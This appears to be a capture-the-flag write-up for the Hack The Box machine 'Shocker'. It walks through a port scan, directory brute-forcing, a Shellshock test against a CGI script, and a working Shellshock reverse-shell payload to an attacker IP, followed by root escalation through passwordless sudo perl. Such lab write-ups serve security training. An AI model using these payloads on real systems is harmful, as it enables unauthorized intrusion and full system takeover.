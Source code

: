 # recon
- 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
- 2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
2222 -> rabbit hole...

## gobuster 
- /
```
/cgi-bin/ (Status: 403)
/cgi-bin/.html (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
```
- /cgi-bin/ since it is a linux then looking for .sh
```
user.sh
```
when GET / -> return
```

Content-Type: text/plain

Just an uptime test script

 10:15:49 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00
```
shocker??? -> shell shock.

looking at this 
- https://github.com/s4n7h0/NSE/blob/master/http-shellshock.nse
- https://book.hacktricks.xyz/pentesting/pentesting-web/cgi#shellshock

try it out.
```
bibo318@parrot:~/HTB/shocker$ curl -H 'User-Agent: () { :; }; echo; echo "VULNERABLE TO SHELLSHOCK"' http://shocker.htb/cgi-bin/user.sh 2>/dev/null
VULNERABLE TO SHELLSHOCK

Content-Type: text/plain

Just an uptime test script

 10:15:49 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00
```

# foot hold

the victim server is vulnerable to shell shock. so let try to craft a bash reverse shell

```
bibo318@parrot:~/HTB/shocker$ curl -H 'User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.14.8/6969 0>&1' http://shocker.htb/cgi-bin/user.sh 2>/dev/null
```
nc listen to port 6969
```
bibo318@parrot:~/HTB/shocker$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.56] 33820
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```
go grab user flag

# root

run `linpeas.sh`
```
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

**GTFObin**: sudo perl -e 'exec "/bin/bash";'

```
shelly@Shocker:/home/shelly$  sudo perl -e 'exec "/bin/bash";'
 sudo perl -e 'exec "/bin/bash";'
root@Shocker:/home/shelly# whoami
whoami
root
```
go grab root flag.